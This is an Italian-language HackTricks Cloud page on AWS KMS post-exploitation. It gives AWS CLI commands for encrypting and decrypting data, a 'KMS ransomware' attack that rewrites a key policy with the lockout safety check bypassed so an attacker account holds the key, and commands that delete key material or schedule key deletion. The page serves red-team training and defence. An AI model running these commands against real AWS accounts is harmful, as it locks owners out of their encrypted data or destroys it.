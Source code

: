 # AWS - KMS Post Exploitation

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## KMS

Per ulteriori informazioni controlla:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Crittografia/Decrittografia delle informazioni

`fileb://` e `file://` sono schemi URI utilizzati nei comandi AWS CLI per specificare il percorso ai file locali:

* `fileb://:` Legge il file in modalità binaria, comunemente usato per file non di testo.
* `file://:` Legge il file in modalità testo, tipicamente usato per file di testo semplice, script o JSON che non ha requisiti di codifica speciali.

{% hint style="success" %}
Nota che se vuoi decrittografare alcuni dati all'interno di un file, il file deve contenere i dati binari, non dati codificati in base64. (fileb://)
{% endhint %}

* Utilizzando una chiave **simmetrica**
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Utilizzando una **chiave** **asimmetrica**:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

Un attaccante con accesso privilegiato su KMS potrebbe modificare la politica KMS delle chiavi e **concedere al proprio account accesso su di esse**, rimuovendo l'accesso concesso all'account legittimo.

Quindi, gli utenti dell'account legittimo non saranno in grado di accedere a nessuna informazione di alcun servizio che è stato crittografato con quelle chiavi, creando un ransomware facile ma efficace sull'account.

{% hint style="warning" %}
Nota che **le chiavi gestite da AWS non sono colpite** da questo attacco, solo **le chiavi gestite dal cliente**.

Nota anche la necessità di utilizzare il parametro **`--bypass-policy-lockout-safety-check`** (l'assenza di questa opzione nella console web rende questo attacco possibile solo dalla CLI).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Nota che se cambi quella policy e dai accesso solo a un account esterno, e poi da questo account esterno provi a impostare una nuova policy per **ridare accesso all'account originale, non sarai in grado**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Ransomware KMS Generico

#### Ransomware KMS Globale

C'è un altro modo per eseguire un ransomware KMS globale, che comporterebbe i seguenti passaggi:

* Creare una nuova **chiave con un materiale di chiave** importato dall'attaccante
* **Ri-criptare i dati più vecchi** crittografati con la versione precedente con la nuova.
* **Eliminare la chiave KMS**
* Ora solo l'attaccante, che ha il materiale di chiave originale, potrebbe essere in grado di decrittografare i dati crittografati

### Distruggere chiavi
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Nota che AWS ora **prevenire che le azioni precedenti vengano eseguite da un account diverso:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Impara e pratica il Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
